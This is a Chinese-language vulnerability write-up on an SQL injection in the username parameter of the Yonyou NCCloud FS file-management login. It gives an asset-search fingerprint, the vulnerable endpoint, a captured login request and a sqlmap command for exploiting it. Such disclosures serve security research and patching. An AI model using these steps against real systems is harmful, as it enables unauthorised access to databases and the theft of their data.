 # 用友 NCCloud FS文件管理SQL注入

## 漏洞描述

用友 NCCloud FS文件管理登录页面对用户名参数没有过滤，存在SQL注入

## 漏洞影响

```
用友 NCCloud
```

## 网络测绘

```
"NCCloud"
```

## 漏洞描述

登录页面如下

![yongyou-6-1](./images/yongyou-6-1.png)

在应用中存在文件服务器管理登录页面

```plain
http://xxx.xxx.xxx.xxx/fs/
```

![yongyou6-2](./images/yongyou6-2.png)

登录请求包如下

```plain
GET /fs/console?username=123&password=%2F7Go4Iv2Xqlml0WjkQvrvzX%2FgBopF8XnfWPUk69fZs0%3D HTTP/1.1
Host: xxx.xxx.xxx.xxx
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.85 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: JSESSIONID=2CF7A25EE7F77A064A9DA55456B6994D.server; JSESSIONID=0F83D6A0F3D65B8CD4C26DFEE4FCBC3C.server
Connection: close
```

使用Sqlmap对**username参数** 进行SQL注入

```plain
sqlmap -r sql.txt -p username
```

![yongyou-6-3](./images/yongyou-6-3.png)